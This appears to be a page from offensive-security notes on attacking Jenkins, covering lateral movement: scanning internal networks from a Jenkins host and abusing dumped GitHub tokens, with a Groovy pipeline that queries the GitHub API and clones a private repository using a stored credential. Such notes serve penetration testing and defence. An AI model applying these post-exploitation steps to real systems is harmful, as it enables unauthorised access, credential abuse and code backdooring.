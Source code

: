 # Lateral Movement

## Internal Network Scan
- When Jenkins is deployed on premise, it has to potential to reach multiple corporate services and endpoints
- When Jenkins is deployed in cloud, it is reachable to limited on premise corporate services through direct connect.
- Therefore, it is worth performing a network scan to find the reachable services, enumerate ports and see if we can exploit any of the services in corp environment.
- We can also use build logs to find if any such corp environment is accessed through analyzing build logs.

## Enumerating services with access tokens
- If we are successful in dumping tokens, we should review what kind of privileges that token hold and what we can do with it.
- For our understanding, let us take an example of github access token.
  - We can try to enumerate various services the token has privileges to perform.
  - So imagine you have access to an admin level personal access token, then there is no limit to the things you can do - Dump credentials, backdoor code, etc
  - We can also have access to private repositories and we can view the cloned contents in the workspace :) 
``` Groovy
pipeline{
    agent any
    stages{
        stage('Recon with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                    curl -s -L \
                        -H "Accept: application/vnd.github+json" \
                        -H "Authorization: Bearer $TOKEN"\
                        -H "X-GitHub-Api-Version: 2022-11-28" \
                        https://api.github.com/user
                    '''
                }
            }
        }
        stage('Clone a private repo with token'){
            steps{
                withCredentials([usernamePassword(credentialsId: 'github-token', usernameVariable: 'USERNAME', passwordVariable: 'TOKEN')]) {
                    sh '''
                        git clone https://dibsy:$TOKEN@github.com/dibsy/a-temp-private-repo.git
                    '''
                }
            }
        }
    }
}
```

<img src="lateral-api.png">
          
<img src="lateral-private.png">

## Executing groovy console commands via dumped jenkins-api token.
## Creating an AWS resources from their dumped tokens.
